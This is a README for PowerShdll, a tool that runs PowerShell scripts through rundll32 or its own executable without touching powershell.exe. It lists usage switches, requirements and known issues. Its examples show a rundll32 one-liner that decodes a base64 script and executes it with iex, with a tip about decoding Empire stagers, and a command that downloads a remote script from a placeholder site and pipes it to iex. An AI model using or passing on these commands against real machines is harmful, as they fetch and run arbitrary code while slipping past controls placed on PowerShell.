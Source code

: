 # PowerShdll
Run PowerShell with dlls only.
Does not require access to powershell.exe as it uses powershell automation dlls.

## dll mode:

```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window
rundll32 PowerShdll,main -i      Start an interactive console in this console
If you do not have an interractive console, use -n to avoid crashes on output
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console
```
## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
```
Note: Empire stagers need to be decoded using [System.Text.Encoding]::Unicode
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Requirements
 * .Net v3.5 for dll mode.
 * .Net v2.0 for exe mode.

## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

